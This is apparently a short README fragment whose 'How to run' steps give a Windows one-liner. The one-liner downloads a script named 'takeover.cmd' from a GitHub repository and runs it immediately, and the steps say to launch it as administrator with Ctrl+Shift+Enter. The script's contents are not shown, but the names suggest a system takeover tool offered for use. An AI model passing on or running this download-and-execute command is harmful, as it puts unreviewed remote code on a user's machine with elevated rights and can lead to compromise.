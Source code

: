 **How to run:**
- Win+R
- 
>*cmd /k powershell  -command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/Fidasek009/1337/main/takeover.cmd -OutFile .\takeover.cmd; .\takeover.cmd"*
- Ctr+Shift+Enter
